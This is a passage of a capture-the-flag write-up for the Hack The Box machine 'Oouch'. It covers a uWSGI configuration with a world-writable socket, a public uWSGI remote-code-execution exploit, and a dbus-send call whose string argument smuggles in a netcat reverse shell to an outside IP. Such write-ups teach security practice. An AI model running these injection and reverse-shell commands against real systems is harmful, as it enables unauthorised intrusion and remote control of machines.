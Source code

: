Another configuration file that says the same thing is at `/code/uwsgi.ini`.

<div class="filename"><span>uwsgi.ini</span></div>

```
[uwsgi]
module = oouch:app
uid = www-data
gid = www-data
master = true
processes = 10
socket = /tmp/uwsgi.socket
chmod-sock = 777
vacuum = true
die-on-term = true
```

Essentially this is the role that uWSGI plays in the grand scheme of things. The web server (nginx in our case) writes something to the socket and uwsgi reads it to execute some python code.

```
the web client <-> the web server <-> the socket <-> uwsgi <-> Django
```

There's an uWSGI RCE [exploit](https://github.com/wofeiwo/webcgi-exploits) that will allow us to get a shell as `www-data`. Perfect.

Prior to running the exploit, I had transferred a copy of `/bin/nc.traditional` from Kali Linux over the machine and the docker container. Time to run the exploit!

{% include image.html image_alt="27d653b4.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/27d653b4.png" %}

On my `nc` listener, a reverse shell appears...

{% include image.html image_alt="da02b6ce.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/da02b6ce.png" %}

Sweet. We can now send a DBus message to the `htb.oouch.Block` interface with `dbus-send`.

```
www-data@aeb4525789d8:/code$ dbus-send --system --dest=htb.oouch.Block --type=method_call --print-reply /htb/oouch/Block htb.oouch.Block.Block 'string:10.10.16.123'
method return time=1584202280.049540 sender=:1.3 -> destination=:1.557 serial=10 reply_serial=2
   string "Carried out :D"
```

{% include image.html image_alt="8b11f686.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/8b11f686.png" %}

It works! I sense the end is near...

```
www-data@aeb4525789d8:/code$ dbus-send --system --dest=htb.oouch.Block --type=method_call /htb/oouch/Block htb.oouch.Block.Block 'string:10.10.16.123; $(/tmp/nc 10.10.16.125 4321 -e /bin/bash)'
```

{% include image.html image_alt="a05c1669.png" image_src="/b30e57f3-aed7-4093-a21e-73b4bf7d9d0c/a05c1669.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/231
[2]: https://www.hackthebox.eu/home/users/profile/103578
[3]: https://www.hackthebox.eu/